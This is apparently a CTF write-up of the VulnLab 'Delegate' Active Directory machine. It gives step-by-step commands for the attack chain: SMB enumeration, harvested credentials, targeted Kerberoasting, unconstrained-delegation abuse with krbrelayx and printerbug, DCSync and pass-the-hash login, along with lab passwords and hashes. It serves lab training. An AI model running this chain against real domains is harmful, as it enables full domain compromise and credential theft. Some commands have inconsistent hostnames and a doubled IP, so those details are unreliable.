 ```yaml
---
title: VulnLab -- Delegate Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,Delegation,Unconstrained Delegaton,Kerberosting,Targeted Kerberosting]
image:
    path: /images/Delegate-banner.png
---
```

# Delegate

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Delegate** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/delegate-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 47001,49674,49664,464,49686,135,53,593,64282,3268,49666,3389,49675,49669,3269,389,5985,64313,49690 --min-rate=1000 10.10.78.6510.10.78.65
```

![image.png](../images/delegate.png)

Now let’s enumerate the shares

```bash
nxc smb delegate.vl -u 'guest' -p '' --shares
```

![image.png](../images/delegate%201.png)

> Notice that we have read access to the SYSVOL
> 

So let’s connect to the share

```bash

smbclient \\\\delegate.vl\\SYSVOL -U "delegate.vl\guest"
```

![image.png](../images/delegate%202.png)

So let’s go and see the scripts that may be running

```bash
cd delegate.vl/scripts
```

![image.png](../images/delegate%203.png)

As we see there is a file named users.bat so let’s download it

```bash
get users.bat
```

![image.png](../images/delegate%204.png)

Let’s see the users.bat content

```bash
cat users.bat
```

![image.png](../images/delegate%205.png)

> Notice that we found hardcoded credentials 
username: A.Briggs
password: P4ssw0rd1#123
> 

So let’s go and test those creds

```bash
nxc smb delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123'
```

![image.png](../images/delegate%206.png)

As we see the credentials are working

Let’s get a bloodhound

```bash
bloodhound-python -ns 10.10.78.65 -d delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' -c all --zip
```

![image.png](../images/delegate%207.png)

Now let’s open it and see if we have any permissions 

![image.png](../images/delegate%208.png)

> Notice that we have GenericWrite on another
> 

Now let’s abuse the targeted kerberosting

```bash
python3 targetedKerberoast.py -d delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' --dc-ip 10.10.78.65
```

![image.png](../images/delegate%209.png)

Now let’s try to crack it’s hash

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/delegate%2010.png)

> As we see we got the password for the user N.Thompson
username: N.Thompson
password: KALEB_2341
> 

Now let’s see the new user permissions

![image.png](../images/delegate%2011.png)

> Notice that the user is in a group named Delegation Admins
> 

Now let’s go and create new computer object

```bash
impacket-addcomputer -computer-name 'remo$' -computer-pass '123456' -dc-ip 10.10.78.65 deledation.vl/A.Briggs:'P4ssw0rd1#123'
```

![image.png](../images/delegate%2012.png)

Now let’s add spn to the machine

```bash
python3 addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/remoone.delegate.vl' -t 'remoone$' -dc-ip 10.10.78.65 dc1.delegate.vl --additional
```

Now let’s add delegation for the machine

```bash
bloodyAD -u 'N.Thompson' -d 'delegate.vl' -p 'KALEB_2341' --host 'dc1.delegate.vl' add uac 'remoone$' -f TRUSTED_FOR_DELEGATION
```

![image.png](../images/delegate%2013.png)

Now let’s open the krbrelayx

```bash
python3 krbrelayx.py -smb2support -hashes :32ED87BDB5FDC5E9CBA88547376818D4
```

![image.png](../images/delegate%2014.png)

Now let’s add dns entry for in the domain

```bash
python3 dnstool.py -u 'delegate.vl\remoone$' -p 123456 -r remoone.delegate.vl -d 10.8.5.233 --action add dc1.delegate.vl -dns-ip 10.10.78.65
```

![image.png](../images/delegate%2015.png)

Now let’s start relaying 

```bash
python printerbug.py -hashes :F2D0C0E145E8323B97CEC00272D7FA01 delegate.vl/evilcomputer\$@dc1.delegate.vl evilcomputer.delegate.vl
```

![image.png](../images/delegate%2016.png)

Now let’s see if we got a ticket

![image.png](../images/delegate%2017.png)

Now let’s go and export the ticket

```bash
export KRB5CCNAME='DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache'
```

![image.png](../images/delegate%2018.png)

now let’s perform DCSync to get administrator hash

```bash
impacket-secretsdump -k -no-pass dc1.delegate.vl
```

![image.png](../images/delegate%2019.png)

Now let’s go and winrm to the machine

```bash
evil-winrm -i delegate.vl -u administrator -H c32198ceab4cc695e65045562aa3ee93
```

![image.png](../images/delegate%2020.png)

Now let’s go and navigate to the administrator desktop and see the root flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/delegate%2021.png)

Amazing we got the root flag 🥳

![image.png](../images/delegate%2022.png)

That’s it for the **Delegate** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX